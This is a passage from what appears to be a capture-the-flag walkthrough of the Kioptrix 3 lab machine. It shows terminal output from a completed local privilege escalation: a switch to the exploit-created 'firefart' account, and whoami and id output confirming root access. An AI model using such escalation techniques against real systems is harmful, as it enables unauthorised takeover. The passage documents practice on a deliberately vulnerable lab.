 	mmap: b7fe0000
	CTRL + C

	loneferret@Kioptrix3:/tmp$ su firefart
	Password: 
	firefart@Kioptrix3:/tmp# cd /root
	firefart@Kioptrix3:~# whoami
	firefart
	firefart@Kioptrix3:~# id
	uid=0(firefart) gid=0(root) groups=0(root)
	firefart@Kioptrix3:~# 
	```
	![](images/Pasted%20image%2020220123200759.png)
5. Obtain Root Flag